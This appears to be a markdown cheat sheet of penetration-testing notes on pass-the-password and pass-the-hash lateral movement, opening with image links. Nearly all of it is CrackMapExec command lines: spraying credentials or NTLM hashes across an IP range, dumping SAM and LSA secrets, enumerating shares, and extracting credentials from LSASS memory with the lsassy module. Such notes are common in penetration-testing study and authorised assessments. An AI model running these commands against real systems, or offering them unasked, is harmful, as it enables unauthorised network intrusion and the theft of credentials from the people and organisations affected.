







___
## Pass the Password / Pass the Hash

- If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks


```
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>
```


```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth
```

### CME to dump valuable data


```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam
```



```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --shares
```



```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --lsa
```

### Built-in Modules


```
crackmapexec smb -L
```

- lsass with lsassy


```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lsassy
```

### The CME DB (database)


```
cmedb
```

